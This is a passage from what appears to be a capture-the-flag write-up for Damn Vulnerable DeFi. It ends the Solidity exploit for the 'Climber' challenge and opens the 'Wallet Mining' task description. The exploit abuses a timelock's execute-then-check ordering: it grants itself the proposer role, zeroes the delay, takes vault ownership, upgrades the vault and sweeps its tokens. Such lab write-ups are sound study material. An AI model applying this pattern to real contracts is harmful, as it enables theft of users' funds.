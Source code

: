   ```solidity
    }

    function schedule() public {
        address[] memory targets = new address[](4);
        uint256[] memory values = new uint256[](4);
        bytes[] memory dataElements = new bytes[](4);

        targets[1] = address(lock);
        values[1] = 0;
        dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)",PROPOSER_ROLE, address(this));

        targets[0] = address(lock);
        values[0] = 0;
        dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);

        targets[2] = address(vault);
        values[2] = 0;
        dataElements[2] = abi.encodeWithSignature("transferOwnership(address)", player);

        targets[3] = address(this);
        values[3] = 0;
        dataElements[3] = abi.encodeWithSignature("schedule()");

        lock.schedule(targets, values, dataElements,  "0x0");
    }   
}

function test_climber() public checkSolvedByPlayer {
   Attack attack = new Attack(timelock, vault, player);
        attack.attack();


    ClimberVault_Broken newVault = new ClimberVault_Broken();
    vault.upgradeToAndCall(address(newVault), "");
    vault.sweepFunds(address(token));
    token.transfer(recovery, token.balanceOf(player)); 
} 
        
```
</details>

---
###  Wallet Mining

#### Task: 

There’s a contract that incentivizes users to deploy Safe wallets, rewarding them with 1 DVT. It integrates with an upgradeable authorization mechanism, only allowing certain deployers (a.k.a. wards) to be paid for specific deployments.

